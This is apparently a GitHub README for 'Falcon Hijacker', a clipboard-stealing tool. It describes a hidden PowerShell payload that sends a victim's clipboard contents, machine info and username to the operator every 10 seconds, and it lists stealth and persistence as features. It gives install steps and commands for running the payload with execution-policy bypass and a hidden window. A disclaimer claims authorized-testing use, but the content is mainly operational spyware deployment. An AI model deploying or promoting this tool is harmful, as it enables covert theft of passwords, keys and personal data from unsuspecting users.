 # Falcon Clip Board Hijacker 🦅

<p align="center">
    <img src="https://raw.githubusercontent.com/rgsecteam/rgsectm/refs/heads/main/image/thumbinels/falcon.png">
    
</p>
<img src="https://img.shields.io/badge/License-MIT-blue.svg">

# What is Falcon-Hijacker?
<p>Falcon Hijacker is a professional clipboard monitoring tool designed for authorized security assessments. It captures real-time clipboard data from target systems through a streamlined bash interface.</p>

## This Tool Tested On :
  - Kali Linux
  - Parrot Sec OS
  - ~~Termux~~ (Not tested)



## 📊 Advanced Monitoring

  - **Live Data Stream:** Real-time clipboard viewing
  - **Structured Logging:** Timestamped entries with metadata
  - **Export Ready:** Clean log format for analysis

## PowerShell Payload (clipboard_logger.ps1)
  - **Frequency:** Checks clipboard every 10 seconds
  - **Data Sent:** Clipboard content + machine info + username
  - **Stealth:** No visible window, error suppression
  - **Persistence:** Runs until manually stopped

## Installing and requirements
<p>This tool require PHP for webserver, and wget for downloading dependencies. First run following command on your terminal</p>

```
apt-get -y install php wget
```

## Installing Falcon:

```
git clone https://github.com/rgsecteam/falcon-hijacker
cd falcon-hijacker
bash falcon.sh
```
## Stealth Deployment:
<p>Run the following command on windows matchin. </p>

```
powershell -NoP -NonI -W h -Exec Bypass .\clipboard_logger.ps1
```
<p>For Hidden Execution</p>

```
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -File .\clipboard_logger.ps1" -WindowStyle Hidden
```

## Stop Hidden Execution
<p style="color:red">For Stop Powershell Background Process.</p>

```
Stop-Process -Name powershell -Force
```

## Legal & Ethical Notice
By using the materials in this repository you agree to:
- Use the information only for defensive, educational, or research purposes in controlled environments.
- Follow all applicable laws and organizational policies.
- **Do not** use this repository to harm others. Always obtain explicit permission before testing on systems you do not own.

### Video Demo
[![Falcon-hijacker Demo](https://img.youtube.com/vi/F2320sUPvbI/0.jpg)](https://www.youtube.com/watch?v=F2320sUPvbI)

#### For More Video subcribe <a href="http://youtube.com/@RGSecurityTeam">RGSecurityTeam YouTube Channel</a>

<p>Falcon-hijacker is inspired by https://github.com/techchipnet/ <br> Big thanks to <a href="https://github.com/techchipnet">@techchipnet</a></p>

